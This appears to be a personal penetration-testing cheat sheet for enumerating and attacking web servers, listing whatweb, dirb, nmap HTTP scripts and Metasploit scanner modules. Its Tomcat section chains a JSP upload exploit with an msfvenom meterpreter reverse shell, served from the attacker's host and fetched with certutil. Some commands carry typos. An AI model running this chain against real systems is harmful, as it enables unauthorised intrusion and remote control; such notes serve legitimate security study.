 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. whatweb
	2. http
	3. dirb
	4. browsh
	5. lynx
	6. curl
	7. wget
	8. [nmap](#nmap)
	9. [msfconsole](#msfconsole)

---
# Overview

Used to host websites. 

## #Ports
- 80 : HTTP
- 443 : HTTPS
- 8080 : Common Alternative or proxy

## Usage
Use web-browser to access the site via hostname or IP.

## Related Services
- IIS : Windows HTTP Server
- NGINX : Server and Proxy
- Apache : server
- httpd : 

---
# #Tools

## whatweb
grabs information and runs tests
`wahtweb 192.168.32.3`

## http
grabs header information and html of page
`http 10.4.18.3`

## dirb
Will find directories that exists at the website using common built in wordlist using GET.
`dirb http://192.168.32.4`
```bash
dirb http:192.168.32.4 /user/share/metasploit-framework/wordlist/directory.txt
```

## browsh
website enumeration, will render website in ascii
`browsh --startup-url http://10.4.16.3/Default.aspx`
- ctrl-w : to exit

## lynx
similar to browsh, more text oriented

## curl
grabs the page from url

## wget 
grabs files from url

---

## #nmap

```bash
nmap -p80 --script http-enum,http-headers,http-methods,http-webdav-scan --script-args url-path=/ 10.3.24.160
```
`nmap -sV -p80 10.34.5.3`
- --script
	- http-enum
		- will show some dir
	- http-headers
		- grabs http header information, shows service version info
	- http-methods
		- --script-args url-path=/webdav/
	- http-webdav-scan
		- --script-args url-path=/webdav/
	- banner
		- return banner, version info

---

## #msfconsole
### Metasploit Framework Console
- use auxiliary/scanner/http/http_version
	- `set rhosts 192.15.43.3`
	- `options`
	- `run`
- use auxiliary/scanner/http/brute_dirs
	- `set rhosts 192.165.2.3`
	- `options`
	- `run`
- use auxiliary/scanner/http/robots_txt
	- `set rhosts 192.168.32.3`
	- `run`
- `search tpye:exploit tomcat` : search for tomcat

#### Apache Tomcat Example
1. `use exploit/multi/http/tomcat_jsp_upload_bypass`
	1. info : shows that exploit uploads a java shell
	2. `set payload java/jsp_shell_bin_tcp`
	3. `show options` : will notice you have payload options to set
	4. will get basic cmd shell access
2. `msfvenom -p windows/meterpreter/reverse_tcp LHOST-10.10.5.4 LPORT=1234 -f exe > meterpreter.exe`
3. `sudo python -m SimpleHTTPServer 80` : host the payload
4. `certutil -urlcache -f http://10.10.5.4/meterpreter.exe` : use inbuilt tool to dl the payload
5. set up msf handler with payload windows/meterpreter/reverse_tcp
6. `.\meterpreter.exe` : launch payload to connect to handler

### Useful Modules
- auxiliary/scanner/http/apache_userdir_enum
- auxiliary/scanner/http/brute_dirs
- auxiliary/scanner/http/dir_scanner
- auxiliary/scanner/http/dir_listing
- auxiliary/scanner/http/http_put
- auxiliary/scanner/http/files_dir
- auxiliary/scanner/http/http_login
- auxiliary/scanner/http/http_header
- auxiliary/scanner/http/http_version
- auxiliary/scanner/http/robots_txt




